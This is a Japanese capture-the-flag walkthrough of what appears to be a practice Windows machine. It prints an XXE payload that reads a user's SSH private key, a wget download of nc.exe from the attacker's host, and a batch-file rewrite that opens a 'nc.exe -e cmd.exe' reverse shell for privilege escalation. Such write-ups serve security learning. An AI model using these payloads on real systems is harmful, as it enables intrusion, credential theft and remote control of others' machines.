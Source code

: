 # 1.Port Scan

対象マシンのポートをスキャン
ip=10.129.95.192

sudo nmap -sC -A -Pn $ip

![e5a422d9b260c485957c0647fd8b5de5.png](../_resources/e5a422d9b260c485957c0647fd8b5de5.png)

HPを発見

![f426e0dd7875143eb3ee95852f99b3fb.png](../_resources/f426e0dd7875143eb3ee95852f99b3fb.png)

USERNAME: admin
PASSWORD: password

![27ef1fa98ff96df77943d93402463f7b.png](../_resources/27ef1fa98ff96df77943d93402463f7b.png)

orderから送信

![c8e53ea4af526ea8f3b909de3efbf941.png](../_resources/c8e53ea4af526ea8f3b909de3efbf941.png)

XMLを使用してる事を確認。

![03ac6c8ea6f7fd14d6111c5c5edceb67.png](../_resources/03ac6c8ea6f7fd14d6111c5c5edceb67.png)

ページソースからDanielユーザの存在を確認。

![ecc3b9b7f18122e1d927e07169db8ff3.png](../_resources/ecc3b9b7f18122e1d927e07169db8ff3.png)

<!DOCTYPE root [<!ENTITY abc SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>

itemの項目を&test;に変更

認証キーを取得

![907508e275dea197c8e5e9a0cb5852bb.png](../_resources/907508e275dea197c8e5e9a0cb5852bb.png)

取得した認証キーをファイルにコピー

`cat id_rsa`

![aa21a64c23b41309a3b8e17ecbebcb1b.png](../_resources/aa21a64c23b41309a3b8e17ecbebcb1b.png)

rsaファイルの権限を変更

![53b2688b00b22655876ecd58fcd45197.png](../_resources/53b2688b00b22655876ecd58fcd45197.png)

# 2.SSH Connect

取得した認証キーを使いsshで接続

`ssh -i id_rsa daniel@$ip`

![2c0c59b5b6f9eeae3534554f96cd714c.png](../_resources/2c0c59b5b6f9eeae3534554f96cd714c.png)

user.txtを取得

`whoami`

`cd Desktop`

`dir`

`type user.txt`

![1135c618f09eecc922acfad0c45188d5.png](../_resources/1135c618f09eecc922acfad0c45188d5.png)


C直下に移動して手掛かりになるファイルを調査。
Log-Managementフォルダにjob.batを発見。

`cd ../`

`cd ../../`

`dir`

`C:/Log-Managment`

![e9dc8956ef1fa64e8e7b75d24ab9f35d.png](../_resources/e9dc8956ef1fa64e8e7b75d24ab9f35d.png)

job.bat内を確認してwevtutilを実行して管理者権限があることを確認

`type job.bat`

![5489e2ebef046584f6cce9c5c307553a.png](../_resources/5489e2ebef046584f6cce9c5c307553a.png)

powershellを起動してschetasksを確認

job.batに関連したtaskは発見できなかった

![f8451be4c53451a7172aaaa6d5390955.png](../_resources/f8451be4c53451a7172aaaa6d5390955.png)

kadoussiteiru purosesu wo kakunin
稼働しているプロセスを確認
wevtutilが稼働しているのを確認

![749297751d47de83b5bda331e22ecd43.png](../_resources/749297751d47de83b5bda331e22ecd43.png)

![b7a94ab139dcb9b427b8f91a9afded70.png](../_resources/b7a94ab139dcb9b427b8f91a9afded70.png)

# 3.reverse shell

job.batを書き換えてリバースシェルを実行する

ローカルでサーバを立ち上げる

![bf56da2abee1aaec33170e947f39daee.png](../_resources/bf56da2abee1aaec33170e947f39daee.png)

ローカルサーバからnc.exeをアップロードする

`wget http://10.10.16.9/nc.exe -outfile nc.exe`

![a847a5677863854f6fc8bea3de72865a.png](../_resources/a847a5677863854f6fc8bea3de72865a.png)


echoコマンドを使いjob.batの内容をローカルマシンの指定したポートに接続するように
書き換える。

`echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.9 1234 > C:\Log-Management\job.bat`  
`type job.bat`

![1fde06f59216c541a4455a4e614c4a66.png](../_resources/1fde06f59216c541a4455a4e614c4a66.png)

# 4.Flag Get

接続を確認

![4fbbf0a061c80c1e6d20198a1ab7eb95.png](../_resources/4fbbf0a061c80c1e6d20198a1ab7eb95.png)

root.txtを取得

`cd C:\Users\Administrator\Desktop`

`dir`

`cd C:\Users\Administrator\Desktop`

![cc6718444b36158bbcb47f3925f73211.png](../_resources/cc6718444b36158bbcb47f3925f73211.png)
